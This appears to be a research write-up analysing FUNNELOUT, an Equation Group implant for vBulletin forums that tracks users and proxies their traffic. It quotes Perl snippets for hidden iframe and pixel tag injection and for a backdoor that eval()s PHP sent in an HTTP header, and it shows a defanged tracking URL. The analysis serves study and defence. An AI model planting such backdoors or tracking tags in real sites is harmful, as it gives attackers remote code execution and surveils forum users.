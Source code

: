 [STOIC SURGEON](https://CybernetiX-S3C.github.io/main/stoicsurgeon)
[RESEARCH](https://CybernetiX-S3C.github.io/main/stoicsurgeon/research)
[CONTRIBUTING](https://CybernetiX-S3C.github.io/main/stoicsurgeon/contrib)
[ABOUT](https://CybernetiX-S3C.github.io/main/stoicsurgeon/about)

# FUNNELOUT

vBulletin implant. The code is able to add tags (in the form of an iframe and 1 pixel GIF tracker) to pages, a backdoor (remote eval via HTTP header content) and a proxy (send request to "proxy"/C&C and relay whatever it sends back to the client). The tag itself can be a proxy tag.

Tagging can be selective, FUNNELOUT uses a blacklist, a list of users to exclude and a list of users to include. By default all users are tracked, except for the ones hardcoded in the blacklist:

```
my $blackList = '84b8026b3f5e6dcfb29e82e0b0b0f386,e6d290a03b70cfa5d4451da444bdea39'; # unregistered (EN), dbedd120e3d3cce1 (AR)
```

This is the infamous [uncrackable hash of EQGRP](https://arstechnica.com/information-technology/2015/02/password-cracking-experts-decipher-elusive-equation-group-crypto-hashes/).

Tagging is basically just including [an iframe](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1047) in the webpage content. The URL contains the username of the user that is loading the page allowing for returning different content per user. [A local image crumb](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L924) can also be included in the page. This allows for easily finding the user in the Apache logs on the vBulletin server [Source](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L262).

The crumb and the iframe, `$htt` contains the full tag URL:

```
$crumbBuild = <<END;
'<img src="images/' . bin2hex(substr(\$u,0,14)) . ".gif" . '" height="1" width="1" style="visibility:hidden">'
END
}
....
return $crumbBuild . '<iframe src="' . \$htt . '" height="1" width="1" scrolling="' . \$scroll .'" frameborder="0" unselectable="yes" marginheight="0" marginwidth="0"></iframe>';
```

Tagging also doesn't always happen. When the vBulletin post ID is not explicitely mentioned, the tagging is kinda ["random"](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1023-L1028).

```
# this is the normal case. tag randomly every so often
else{ 
    $text4 = <<END;
if(\$td - \$rk[0] >= $tagTime) {
    \$rk[0] = \$td;
    \$rk[1] = rand(0, $tagInt);
    \$bd(\$key, serialize(\$rk), 1);
} 
```

If the backdoor is installed (in the footer template), then you can send executable PHP code in the [`HTTP_REFERRER` header](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L288) and it will be `eval()`ed. This allows for quick external access to the system.

```
my $codePrefix = '".@eval(base64_decode("';
my $codeSuffix = '"))."';
...
sub op_door {
    $code_door = $codePrefix . getBase64Encode('eval($_SERVER["HTTP_REFERRER"]); return "";') . $codeSuffix;
    
    print "Insert door\n";
    patch_db($code_door, $doorTemplate);
}

```

The proxy functionality will literally forward [the full request (body and everything)](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1120-L1151) towards the proxy and it will return to the user whatever [the proxy returns](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1209) (like... a... proxy...).

Also check [Kaspersky EQGRP questions and answers](https://cdn.securelist.com/files/2015/02/Equation_group_questions_and_answers.pdf), FUNNELOUT is the code generator for the PHP code found on page 24.

![Kaspersky, example found in the wild](../assets/images/funnelout_kaspersky.png)

([Source](https://cdn.securelist.com/files/2015/02/Equation_group_questions_and_answers.pdf))


In the code found by Kaspersky, the tag URL is `http://technology-revealed[.]com/expand/order.php?design=ABRSRgDQlkUALAxGANDrRuQQofe6Y0THS8E3hfBC+M+k7CdBmTH5gAkLvgV8EV3ULW+7KoUjbJ4UOFU6SVOtgEK7zTgPPNoDHz4vKecDGe7OzDmJlvwKvc5uYg/I/5x9&sn=" . bin2hex(substr($u,0,14));` Where `$u` is the username. We also find that the crumb string is empty (just before the iframe HTML code there's a concatenation with an empty string). 

The blacklist in the Kaspersky report only contains the two md5s that are default. Since the blacklist is build up with these default entries and then a whitelist of people not to follow and a blacklist of people to follow (see [here](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L833-L864)), we know that EQGRP was following/tagging every user.

